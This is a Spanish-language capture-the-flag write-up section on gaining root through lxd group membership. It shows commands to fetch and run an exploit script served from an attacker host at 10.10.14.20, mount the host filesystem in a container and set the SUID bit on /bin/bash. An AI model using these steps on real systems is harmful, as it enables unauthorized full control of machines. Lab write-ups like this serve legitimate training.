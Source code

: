 ## Escalada de privilegios {-}

### Rootear la maquina {-}

```bash
whoami
id
```

En este punto vemos que el usuario xalvas esta en el grupo **lxd** y ya tenemos la posibilidad de escalar privilegios con esto.

```bash
searchsploit lxd
searchsploit -x 46978
```

Si Si el exploit a sido creado por el mismo S4vitar. Para usar el exploit, lo primero es mirar si estamos en una maquina 32 o 64 bits.

```bash
uname -a
```

Seguimos los pasos del exploit

1. En la maquina de atacante

    ```bash
    wget https://raw.githubusercontent.com/saghul/lxd-alpine-builder/master/build-alpine
    chmod +x build-alpine
    ./build-alpine # --> para maquinas x64
    ./build-alpine -a i686 # --> para maquinas i686
    searchsploit -m 46978
    mv 46978.sh lxd_privesc.sh
    dos2unix lxd_privesc.sh
    python3 -m http.server 80
    ```

1. En la maquina victima

    ```bash
    wget http://10.10.14.20/alpine-v3-14-i686-20210728_2134.tar.gz
    wget http://10.10.14.20/lxd_privesc.sh
    chmod +x lxd_privesc.sh
    ./lxd_privesc.sh -f alpine-v3-14-i686-20210728_2134.tar.gz
    ```

1. vemos un error `error: This must be run as root`. Modificamos el fichero lxd_privesc.sh

    ```bash
    nano lxd_privesc.sh
    ```

    en la function createContainer(), borramos la primera linea:
    
    ```bash
    # lxc image import $filename --alias alpine && lxd init --auto
    ```

1. Ya estamos root pero en el contenedor. Modificamos la `/bin/bash` de la maquina

    - en el contenedor

        ```bash
        cd /mnt/root
        ls
        cd /bin
        chmod 4755 bash
        exit
        ```

    - en la maquina victima

        ```bash
        bash -p
        whoami
        #Output
        root
        ```